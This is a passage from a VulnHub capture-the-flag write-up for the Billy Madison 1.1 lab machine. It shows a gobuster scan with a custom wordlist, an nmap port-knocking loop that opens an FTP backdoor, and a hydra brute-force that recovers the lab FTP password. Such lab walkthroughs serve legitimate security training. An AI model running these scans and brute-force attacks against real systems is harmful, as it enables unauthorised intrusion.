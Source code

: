 5\. Found reference to the presence of files with names from `rockyou.txt` wordlist and `veronica` string in them. We created a custom wordlist, ran a `gobuster` scan and found a network capture file:  
```
gobuster -u http://192.168.92.167/exschmenuating -w veronica.wordlist -e -k -l -s "200,204,301,302,307,403,500" -x "cap,pcap,capture" -o "results/192.168.92.167/scans/tcp_80_http_gobuster_dirbuster.txt" → http://192.168.92.167/exschmenuating/012987veronica.cap
```

![writeup.enumeration.steps.5.1](/static/files/posts_vulnhub_billymadison1dot1/screenshot03.png.webp)  

![writeup.enumeration.steps.5.2](/static/files/posts_vulnhub_billymadison1dot1/screenshot04.png.webp)  

6\. Ran a port knock using the [Spanish Armada](https://www.youtube.com/watch?v=z5YU7JwVy7s) combo to open the FTP backdoor:  
```
for port in 1466 67 1469 1514 1981 1986; do nmap -Pn --host_timeout 201 --max-retries 0 -p ${port} 192.168.92.167; done
nmap -p21 192.168.92.167
```

7\. Found FTP password for user `veronica` using `hydra` and the custom wordlist created earlier:  
```
hydra -l veronica -P veronica.wordlist 192.168.92.167 ftp → veronica/babygirl_veronica07@yahoo.com
```

![writeup.enumeration.steps.7.1](/static/files/posts_vulnhub_billymadison1dot1/screenshot05.png.webp)  
